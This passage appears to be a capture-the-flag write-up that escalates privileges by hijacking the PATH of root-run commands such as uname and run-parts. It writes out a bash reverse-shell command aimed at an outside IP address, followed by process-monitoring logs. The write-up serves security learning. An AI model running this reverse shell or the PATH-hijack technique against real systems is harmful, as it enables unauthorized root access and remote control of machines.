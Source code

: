 `uname` is called without an absolute path - could we write a malicious `uname` binary that gives us a shell?

```bash
jkr@writeup:~$ which bash
/bin/bash
jkr@writeup:~$ echo 'bash -i >& /dev/tcp/10.10.14.211/9001 0>&1' > /usr/local/sbin/uname
```

I tried to trigger this by logging in in another pane, but didn't get a shell.

After some more enumeration, it looks like uname was called by someone else working on the box, and this was just a coincidence after I logged in - it didn't trigger a second time:

```bash
2021/07/15 16:56:20 CMD: UID=102  PID=12611  | sshd: [net]       
2021/07/15 16:56:32 CMD: UID=0    PID=12612  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 16:56:32 CMD: UID=0    PID=12613  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 16:56:32 CMD: UID=0    PID=12614  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/15 16:56:32 CMD: UID=0    PID=12615  | 
2021/07/15 16:56:32 CMD: UID=0    PID=12616  | sshd: jkr [priv]  
2021/07/15 16:56:32 CMD: UID=1000 PID=12617  | sshd: jkr@pts/1   
2021/07/15 16:56:32 CMD: UID=1000 PID=12618  | -bash 
2021/07/15 16:56:32 CMD: UID=1000 PID=12619  | -bash 
2021/07/15 16:56:32 CMD: UID=1000 PID=12620  | -bash 
2021/07/15 16:56:32 CMD: UID=1000 PID=12621  | -bash 
2021/07/15 16:57:01 CMD: UID=0    PID=12622  | /usr/sbin/CRON 
2021/07/15 16:57:01 CMD: UID=0    PID=12623  | /usr/sbin/CRON 
2021/07/15 16:57:01 CMD: UID=0    PID=12624  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2021/07/15 16:57:02 CMD: UID=0    PID=12625  | sshd: [accepted]
2021/07/15 16:57:02 CMD: UID=0    PID=12626  | sshd: [accepted]  
2021/07/15 16:57:06 CMD: UID=0    PID=12627  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 16:57:06 CMD: UID=0    PID=12628  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 16:57:06 CMD: UID=0    PID=12629  | run-parts --lsbsysinit /etc/update-motd.d 
```

This is a lesson to always try things twice before you jump down a rabbit hole.

### Hijacking run-parts

The consistently run commands are the `run-parts` commands:

```bash
2021/07/15 17:14:46 CMD: UID=0    PID=12695  | sshd: jkr [priv]  
2021/07/15 17:14:46 CMD: UID=0    PID=12696  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 17:14:46 CMD: UID=0    PID=12697  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/15 17:14:46 CMD: UID=0    PID=12698  | 
2021/07/15 17:14:46 CMD: UID=0    PID=12699  | sshd: jkr [priv]  
2021/07/15 17:14:46 CMD: UID=1000 PID=12700  | -bash 
2021/07/15 17:14:46 CMD: UID=1000 PID=12701  | -bash 
2021/07/15 17:14:46 CMD: UID=1000 PID=12702  | -bash 
2021/07/15 17:14:46 CMD: UID=1000 PID=12703  | -bash 
2021/07/15 17:14:46 CMD: UID=1000 PID=12704  | -bash 
2021/07/15 17:15:01 CMD: UID=0    PID=12705  | /usr/sbin/CRON 
2021/07/15 17:15:01 CMD: UID=0    PID=12706  | /usr/sbin/CRON 
2021/07/15 17:15:01 CMD: UID=0    PID=12707  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
```
